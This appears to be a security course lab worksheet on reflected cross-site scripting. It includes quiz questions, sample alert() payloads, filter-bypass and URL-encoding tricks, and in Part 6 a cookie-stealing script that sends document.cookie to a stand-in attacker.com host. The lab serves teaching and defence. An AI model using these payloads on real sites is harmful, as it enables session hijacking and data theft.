 # Lab 10 - Reflected Cross-Site Scripting (XSS) Attacks

**Objective:**  
This lab will guide students through the process of identifying and exploiting **Reflected Cross-Site Scripting (XSS) vulnerabilities**. By manipulating web application input, attackers can inject malicious code (usually JavaScript) into the responses sent to the browser, potentially compromising user security. Students will learn to recognize different types of XSS and explore mitigation techniques.

---

### **Background / Scenario:**
Reflected XSS occurs when an attacker tricks a user into clicking a malicious link that sends data to a vulnerable web application. The server processes the data and reflects it back to the user without proper validation, executing malicious scripts in the victim's browser. This can lead to session hijacking, data theft, or even defacement of websites.

---

### **Required Resources:**
- Internet access
- A web browser with developer tools
- A vulnerable web application or XSS testing environment such as **DVWA** or **OWASP Juice Shop**

---

### **Instructions:**

#### **Part 1: Understanding Reflected XSS**

1. **What is Reflected XSS?**  
   Reflected XSS occurs when an application includes user input in its response without properly escaping or validating the content.  
   - Example: An attacker sends a phishing link such as:  
     `https://vulnerable.app/search?q=<script>alert('XSS')</script>`  
     When clicked, this link causes the server to reflect the malicious script in its response, which is executed by the victim's browser.

---

2. **Question 1:**  
   The IT help desk received a report from an employee about a suspicious email with a phishing link asking users to visit a website. Upon investigation, the phishing link contains malicious code that will be reflected back by the web server.  
   **Which type of attack would occur if users click the phishing link?**

   - A) HTTP parameter pollution
   - B) Reflected Cross-Site Scripting
   - C) Stored Cross-Site Scripting
   - D) Cross-Site Request Forgery

---

#### **Part 2: Simulating a Reflected XSS Attack**

1. **Testing a Search Input for Reflected XSS:**  
   - Open the vulnerable web application and navigate to the search page.  
   - In the search input field, enter a payload like:  
     `<script>alert('XSS')</script>`
   - Submit the form and observe the response.  
   - **Did the application reflect the malicious script back into the page without escaping it?**

   **Question 2:** What happened when you submitted the script?  
   - Did the browser display a pop-up alert?
   - What would be the implications if this was a real attack?

---

#### **Part 3: Crafting Malicious URLs for Phishing**

1. **Creating a Malicious URL:**  
   - Try crafting a URL that contains an XSS payload, such as:  
     `https://vulnerable.shop/search?q=<script>alert('XSS')</script>`  
   - Send the URL to yourself or another user.  
   - When the link is clicked, does the malicious script execute?

   **Question 3:** What happens when the link is clicked?  
   - Does the victim’s browser execute the malicious JavaScript?

---

#### **Part 4: Bypassing Basic Filters**

1. **Escaping Filters:**  
   Some web applications attempt to filter out malicious input by blocking certain characters or keywords.  
   - Try using obfuscation techniques to bypass these filters. For example, use:  
     `"<scr"+"ipt>alert('XSS')</scr"+"ipt>"`  
   - Or, encode the script using URL encoding:  
     `https://vulnerable.shop/search?q=%3Cscript%3Ealert('XSS')%3C/script%3E`

   **Question 4:** Were you able to bypass any filters in place?  
   - Explain how encoding or obfuscation helped circumvent the security mechanisms.

---

#### **Part 5: Reflected XSS in Query Parameters**

1. **Testing Query String Parameters:**  
   - Many web applications pass user data in the query string. Test for reflected XSS vulnerabilities by tampering with these parameters.  
   - Example:  
     `https://example.com/login?redirect=<script>alert('XSS')</script>`

   **Question 5:** What did you find when manipulating the query string?  
   - Were you able to inject and execute JavaScript code?

---

#### **Part 6: Exploiting XSS for Data Theft**

1. **Stealing Cookies via XSS:**  
   Attackers can use XSS vulnerabilities to steal session cookies from users. Modify your XSS payload to send cookies to an external server by using a script like:  
   ```javascript
   <script>new Image().src="http://attacker.com/steal.php?cookie="+document.cookie;</script>
   ```  
   - When the victim clicks the malicious link, their session cookies will be sent to the attacker’s server.

   **Question 6:**  
   - Explain how XSS can be used to steal cookies and hijack sessions.
   - What steps would an attacker take after stealing cookies to gain unauthorized access?

---

#### **Part 7: Bonus Challenge - Reflected vs Stored XSS**

1. **Understanding Stored XSS:**  
   In contrast to reflected XSS, stored XSS occurs when malicious scripts are permanently stored on a server (e.g., in a database) and served to users without proper validation. Try to find an input field that allows you to inject and store malicious scripts, such as a comment or review section.

   **Question 7:** What is the key difference between **Reflected XSS** and **Stored XSS**?  
   *(Choose one.)*
   
   - A) Reflected XSS targets the database, stored XSS targets the browser.
   - B) Reflected XSS is temporary, stored XSS is persistent.
   - C) Reflected XSS attacks a server, stored XSS attacks a client.

---

### **Mitigation Techniques for Reflected XSS**

2. **Research XSS Prevention:**  
   Conduct research on how web developers can prevent reflected XSS.  
   - What are the common strategies for sanitizing and validating input before including it in a server response?
   - How does **Content Security Policy (CSP)** help in reducing the impact of XSS?

---

3. **Question 8:** What are the three main strategies for mitigating XSS attacks?  
   *(Choose all that apply.)*

   - A) Input validation and output encoding
   - B) Encrypting URL parameters
   - C) Enforcing Content Security Policy (CSP)
   - D) Disabling JavaScript in the browser
   - E) Implementing secure cookie attributes

---

### **Reflection Questions**

- **Question 9:** What are the most common sources of user input that attackers target when attempting XSS attacks (e.g., search fields, form submissions, query parameters)?  
   - Explain why these sources are vulnerable and how they can be secured.

- **Question 10:** How does browser security play a role in preventing or mitigating XSS attacks, and what additional defenses can be implemented at the client-side?

---

### **Lab Conclusion:**
In this lab, students explored the workings of **Reflected XSS** and how attackers exploit these vulnerabilities to inject and execute malicious code. By understanding the techniques attackers use, students will be better equipped to identify and defend against these vulnerabilities.

